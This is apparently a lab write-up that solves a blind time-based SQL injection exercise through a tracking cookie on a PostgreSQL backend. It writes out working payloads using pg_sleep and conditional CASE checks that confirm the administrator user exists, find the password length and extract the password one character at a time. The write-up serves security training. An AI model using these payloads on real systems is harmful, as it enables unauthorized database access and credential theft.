






# Blind SQL injection with time delays and information retrieval
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution
## Checking that tracking id is vulnerable to time-based SQL injection.
The query below causes a delay.
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select pg_sleep(10))--
```
||
|:--:| 
| *Test payload causing delay* |

The query below causes a delay also.
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (1=1) then pg_sleep(10) else '' end)--
```
||
|:--:| 
| *Test payload causing delay* |

### Syntax
```
SELECT CASE WHEN (1=1) THEN <sth> ELSE <sth> END {FROM <table>}
```

## Checking that the user administrator exists
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator') then pg_sleep(10) else '' END from users)--
```
The query above causes a delay. It means that administrator entry exists in database.

## Retrieving adminstrator's password length
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator' and length(password)=20) then pg_sleep(10) else '' END from users)--
```
The query above causes a delay. It means that adminsitrator's password has (at least) 20 characters.
||
|:--:| 
| *Payload causes a delay -> Password is (at least 20) characters long* |

## Retrieving administrator's password
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator' and SUBSTRING(password, 1, 1)='a') then pg_sleep(10) else '' END from users)--
```

||
|:--:| 
| *Payload causes a delay -> Given character is "a"* |
||
| *Password enumeration results for 9th character* |


### Cluster bomb mode
||
|:--:| 
| *Payload positions* |